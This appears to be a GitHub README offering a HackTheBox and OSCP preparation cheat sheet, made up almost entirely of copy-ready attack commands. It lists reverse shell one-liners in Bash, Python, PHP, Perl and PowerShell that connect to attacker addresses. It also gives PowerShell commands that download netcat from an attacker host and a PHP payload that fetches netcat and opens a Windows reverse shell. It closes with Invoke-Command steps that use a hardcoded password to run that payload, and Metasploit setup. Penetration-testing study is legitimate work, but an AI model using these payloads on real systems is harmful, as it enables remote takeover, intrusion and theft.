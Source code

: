 # HackTheBox
For OSCP preparation!

## CheatSheet
* [Reverse shell](#Reverse)
* [Powershell Cheatsheet](#PSCheat)
* [Metasploit Setup](#Metasploit)
### Bash

```bash
bash -i >& /dev/tcp/{IP}}/{PORT}} 0>&1
sh -i >& /dev/udp/{IP}/{PORT}} 0>&1

0<&196;exec 196<>/dev/tcp/<your IP>/<same unfiltered port>; sh <&196 >&196 2>&196
```

### Python

```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### php
```PHP
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Powershell

```Powershell
Create shell.ps1

$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## PSCheat


**One Liner 'Download file with powershell'**
```Download File -Powershell
cmd.exe> powershell IWR http://10.12.12.12/nc.exe -outfile \\PATH\\nc.exe

PS> Invoke-WebRequest http://10.10.15.15/shell.ps1 -OutFile c:\shell.ps1
```
**One liner 'PHP Reverse shell when Target machine is Windows'**
```

<?= system("powershell IWR http://10.12.12.12/nc.exe -outfile \\windows\\temp\\nc.exe; \\windows\\temp\\nc.exe 10.12.12.12 4444 -e powershell.exe 2>&1") ?>

Start Listerner > nc -lvnp 4444
If reverse shell does not connect -Verify if target machine has AV as it may delete the netcat.
```
**Switch User in Powershell (Like Su user in Linux but in windows its tricky)

```
PS>$user = 'WORKGROUP\Miracle' 
PS>$passwd = 'securepass' 
PS>$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
PS>$cred = new-object system.management.automation.PSCredential $user,$secpass 
PS>Invoke-Command -computername 127.0.0.1 -ScriptBlock { whoami } -credential $cred
```
It will print Usernmae WORKGROUP\Miracle because of this { whoami }, Then to get reverse shell use below lines and remember to change the 'Ip' & 'Port'
```
PS>Invoke-Command -computername 127.0.0.1 -ScriptBlock { wget http://10.10.14.201/nc.exe -OutFile C:\temp\nc.exe } -credential $cred
PS>Invoke-Command -computername 127.0.0.1 -ScriptBlock { C:\temp\nc.exe 10.10.14.201 8687 -e powershell.exe } -credential $cred
```


## Metasploit

```
root@Miracle:~# apt update; apt install metasploit-framework 
root@Miracle:~# msfdb delete
root@Miracle:~# msfdb init
root@Miracle:~# cp /usr/share/metasploit-framework/config/database.yml /root/.msf4/
root@Miracle:~# service postgresql restart
root@Miracle:~# msfconsole
MSF5 > db_status
Msf5 > db_rebuild_cache

Easy
```
